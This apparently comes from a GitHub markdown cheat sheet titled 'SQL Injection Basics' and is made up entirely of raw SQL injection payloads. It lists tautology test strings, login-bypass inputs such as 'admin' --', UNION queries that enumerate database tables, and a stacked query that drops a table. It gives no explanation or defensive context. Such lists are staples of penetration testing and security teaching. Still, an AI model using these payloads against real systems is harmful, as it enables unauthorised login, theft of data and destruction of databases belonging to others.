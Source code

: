 # SQL Injection Basics

## Simple Tests

```
' --
' or 'a'='a
' or 'a'='a'--
' or '1'='1
' or 1=1--
```

## Bypass Login

```
any' or 1=1 limit 1;#
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
....
```

## Union Injections

```
' UNION SELECT field1, field2 FROM table--
' UNION SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=database()--
```

## Stacked queries

```
'; DROP TABLE table;--
```
